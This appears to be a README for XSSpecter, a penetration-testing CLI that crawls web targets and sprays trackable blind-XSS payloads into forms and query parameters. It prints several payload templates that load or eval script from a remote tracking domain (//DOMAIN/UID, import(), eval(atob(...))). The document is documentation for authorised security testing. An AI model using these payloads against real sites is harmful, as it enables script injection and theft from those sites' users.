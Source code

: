 # XSSpecter - XSS Payload Spraying CLI Tool

XSSpecter is a command-line interface (CLI) utility designed for penetration testers to ethically **spray** various Cross-Site Scripting (XSS) payloads across web targets. It automates crawling, form and link extraction, payload generation, injection via GET/POST (including multipart), and results export.

---

## Table of Contents
1. [Overview](#overview)
2. [Ethical Notice & Disclaimer](#ethical-notice--disclaimer)
3. [Key Features](#key-features)
4. [Architecture & Modules](#architecture--modules)
5. [Installation](#installation)
6. [Configuration](#configuration)
7. [Usage](#usage)
   - [spray Command](#spray-command)
   - [Options & Flags](#options--flags)
   - [Examples](#examples)
8. [Execution Flow](#execution-flow)
9. [Extending & Customizing](#extending--customizing)
10. [Contributing & License](#contributing--license)

---

## Overview

XSSpecter streamlines the process of injecting XSS payloads by:
- Optionally crawling a target domain to discover pages and forms
- Parsing forms (`<form>` tags) and query-based GET parameters
- Generating unique, trackable XSS payloads
- Spraying payloads via GET, POST (urlencoded), and multipart/form-data
- Exporting scan results to JSON for analysis

It leverages Python libraries including [requests](https://pypi.org/project/requests/), [BeautifulSoup](https://pypi.org/project/beautifulsoup4/), and [Typer](https://pypi.org/project/typer/) for CLI.

## Ethical Notice & Disclaimer

> **Warning:** Use XSSpecter **only** on applications and domains for which you have explicit permission to test. Unauthorized scanning, injection, or exploitation is illegal and unethical. Always adhere to your organization's rules of engagement and applicable laws.

## Key Features
- **Crawling:** Configurable depth and max pages, domain-restricted, concurrent threads
- **Form & Link Extraction:** HTML parsing to locate `<form>` elements and GET-parameterized links
- **Payload Generation:** Unique IDs, base64-encoded scripts/styles, server-side tracking via API
- **Spraying Mechanisms:** GET requests (query injection), POST urlencoded, multipart uploads
- **Progress & Reporting:** Rich console progress bars, colored status outputs, JSON export
- **Customizable:** Headers, cookies, proxy, SSL ignore, thread count

## Architecture & Modules

```text
project_root/
├── xsspecter/           # CLI entry point
│   └── main.py          # Typer-based CLI: `xsspecter http://target/ --crawl ...`
├── modules/             # Core functionality modules
│   ├── config.py        # Load/save config (~/.config/xsspecter/config.json)
│   ├── web_crawler.py   # Domain-limited crawler, HTML fetch, concurrency
│   ├── html_parser.py   # Parse HTML, extract forms and GET-parameter links
│   ├── form_processor.py# Normalize `<form>` details to uniform data model
│   ├── payload_generator.py # Generate/track unique XSS payloads
│   ├── payload_spray.py # Send payloads via GET/POST/multipart
│   └── result_exporter.py # Export results to JSON file
├── requirements.txt     # Dependencies pinning
└── setup.py             # Package metadata
```

### Module Responsibilities
- **config.py**: Manages default values (`IGNORE_KEYS`, default emails/numbers), loads/saves user config at `~/.config/xsspecter/config.json`.
- **web_crawler.py**: Implements `WebCrawler` with methods:
  - `crawl()`: breadth-first queue with thread pool, depth and page limits
  - `_process_url()`: fetch page, extract forms, record metadata, discover links
- **html_parser.py**: `HTMLParser` wraps BS4 to:
  - Find `<form>` tags, pass to `FormProcessor`
  - Find `<a>` links with query parameters as pseudo-forms
- **form_processor.py**: `FormProcessor` normalizes inputs, textareas, selects into:
  ```json
  { url, method, data: { name: { value, type } }, content_type }
  ```
- **payload_generator.py**: `PayloadGenerator` posts a tracking payload to a remote server, generates payload templates:
  ```js
  ""><script src="//DOMAIN/UID"></script>
  ""><style/onload=import("//DOMAIN/UID")></style>
  ... onfocus=eval(atob(this.id))
  ```
- **payload_spray.py**: `PayloadSpray.run()` chooses GET vs POST, urlencoded vs multipart, attaches payload into fields or headers.
- **result_exporter.py**: Serializes `crawler.results` into JSON file.

## Installation

```bash
# Clone or install via pipx (recommended):
pipx install "git+https://github.com/your-org/xsspecter.git"

# Or install in a virtualenv:
git clone https://github.com/your-org/xsspecter.git
cd xsspecter
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
pip install .
```

## Configuration

- Default config path: `~/.config/xsspecter/config.json`
- Fields:
  - `domain`: Your tracking domain (e.g. `dnslog-server.com`)
  - `api_key`: API token for payload tracking
  - `max_depth`: Default crawl depth
  - `rate_limit`: Requests per second (reserved)

_On first run, an empty template is generated. Fill in `domain` and `api_key` before payloads will work._

## Usage

### spray Command
```bash
xsspecter [OPTIONS] <url>
```

#### Options & Flags
- `--depth INT`           : Maximum crawl depth (default: 2)
- `--max-pages INT`       : Max pages to crawl (default: 100)
- `--output PATH`         : Output JSON file (default: results.json)
- `--crawl / --no-crawl`  : Enable or disable crawling (default: disabled)
- `--proxy TEXT`          : HTTP proxy (e.g. http://user:pass@host:port)
- `--insecure`            : Ignore SSL warnings (insecure)
- `--headers key:val`     : Custom HTTP header (repeatable)
- `--cookies "k1=v1;k2=v2"`: Custom cookies
- `--threads INT`         : Number of concurrent threads (default: 5)

### Examples
- **Simple spray without crawling**
  ```bash
  xsspecter https://target.com/login 
  ```

- **Full crawl + spray**
  ```bash
  xsspecter https://target.com --crawl --depth 3 --max-pages 50
  ```

## Execution Flow
1. **Validate URL** using `validators.url`
2. **Initialize** `WebCrawler` and (optionally) **crawl** pages:
   - Fetch pages via `requests.Session`
   - Extract `<form>` and GET-link targets
   - Record page metadata (title, meta description, status code)
3. **Generate Payloads** per form/link with `PayloadGenerator`:
   - Register tracking info to remote API
   - Create unique, encoded payload strings
4. **Spray Payloads** with `PayloadSpray`:
   - GET: append query string and override `User-Agent`
   - POST urlencoded: form body + custom headers
   - POST multipart: file fields + form fields
5. **Log & Display** HTTP status per injection
6. **Export Results** to JSON via `ResultExporter.export_json`

## Extending & Customizing
- **Add new payload templates**: modify `modules/payload_generator.py`
- **Ignore additional fields**: update `Config.IGNORE_KEYS` in `modules/config.py`
- **Enhance form parsing**: extend `FormProcessor.process()` in `modules/form_processor.py`
- **Support new content types**: extend `PayloadSpray.run()` in `modules/payload_spray.py`

## Contributing & License
- Contributions via Issues & PRs welcome.
- Fork the repo, create a branch, submit a pull request.
- **License**: No license file included by default; consider adding MIT or Apache-2.0 before production use.
